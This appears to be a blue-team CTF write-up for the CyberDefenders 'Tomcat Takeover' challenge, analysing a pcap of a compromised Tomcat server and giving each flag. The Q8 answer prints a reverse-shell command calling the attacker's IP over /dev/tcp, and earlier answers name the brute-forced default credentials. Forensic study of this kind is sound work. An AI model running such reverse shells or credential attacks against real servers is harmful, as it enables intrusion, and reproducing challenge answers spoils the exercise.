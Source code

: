 ```yaml
---
title: CyberDefender - Tomcat Takeover
tags: [CyberDefender, Network Forensics]

---
```


# CyberDefender - Tomcat Takeover
Challenge: https://cyberdefenders.org/blueteam-ctf-challenges/135#nav-questions

:::spoiler TOC
[TOC]
:::

## Scenario
>  Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

## ==Q1==
> Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? 
### Recon
直覺就是先看endpoint或conversation
### Exploit
可以看到==14.0.0.120==和內網的`10.0.0.112`，代表前者應該就是此次的外部攻擊者
![image](https://hackmd.io/_uploads/HkPNR5tUp.png)

:::spoiler Flag
Flag: `14.0.0.120`
:::
## ==Q2==
> Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? 
### Recon
找到IP後丟到whois看detailed info
### Exploit
這一題問的是city，不是province，所以要填廣州，不是廣東
![image](https://hackmd.io/_uploads/HJakbiFIT.png)

:::spoiler Flag
Flag: `Guangzhou`
:::
## ==Q3==
> From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? 
### Recon
隨便猜

:::spoiler Flag
Flag: `8080`
:::
## ==Q4==
> Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? 
### Recon
這一題直接問chat-gpt，因為工具太多了，乾脆直接問AI最快
### Exploit
[ChatGPT Answer](https://chat.openai.com/share/72f8bf09-7c96-46c6-87a4-96b2e27e1f80)
> Dirb / Dirbuster / Gobuster / Dirsearch:
> * These tools are designed to brute-force directories and files on web servers by making requests with different wordlists.

:::spoiler Flag
Flag: `Gobuster`
:::
## ==Q5==
> Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? 
### Recon
這一題是從tcp flow中的transport file，慢慢回推回去tcp stream再詳細看其中的packet，因為根據題目敘述，它應該是狂送一大堆封包去爆目錄，所以我們只要往大方向觀察就知道大概在哪一段
### Exploit
根據extracted file的內容，在#20649附近的stream已經可以拿到reverse shell了，代表從這邊往前可能是個不錯的選擇
![image](https://hackmd.io/_uploads/ByRj4ot8a.png)
果不其然，它的順序一定是先爆路徑，之後再想怎麼塞reverse shell，所以從下圖可以知道有一大堆的404 error request，跟著他的stream就可以看到最重要的那個sub-path
![image](https://hackmd.io/_uploads/H1YNVjKIa.png)
又題目說到該頁面是個admin panel，代表應該是個可以登入做authentication的地方，所以後續看到的第一個status code 200的/example就不是我們的目標，而是再更後面的==/manager==，因為它有login stage
![image](https://hackmd.io/_uploads/H1CjUsK8a.png)

:::spoiler Flag
Flag: `/manager`
:::
## ==Q6==
> Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? 
### Recon
呈上題，拿到登入頁面當然就是要爆帳密，所以往後面的stream看可以發現有很多嘗試login的request，但都是401 Unauthorized
### Exploit
從下圖可以發現，往後刷幾個packets就有一個status 200的response，也就是attacker成功嘗試登入的response，從這邊把credential抓到base64 decode就會發現帳密
![image](https://hackmd.io/_uploads/HyM5DoYUT.png)

:::spoiler Flag
Flag: `admin:tomcat`
:::
## ==Q7==
> Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? 
### Recon
往後看tcp stream會發現manager有upload的功能，所以attacker嘗試上傳一些東西，應該是一個zip file
### Exploit
![image](https://hackmd.io/_uploads/BJCtKjF8T.png)

:::spoiler Flag
Flag: `jxqozy.war`
:::
## ==Q8==
> Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? 
### Recon
再往後看同一個stream的其他packet，發現server response 200，上傳成功後就可以直接進入reverse shell，接著就是看它的指令，發現他想要常駐在該台電腦上
### Exploit
![image](https://hackmd.io/_uploads/B12M5stLa.png)

:::spoiler Flag
Flag: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
:::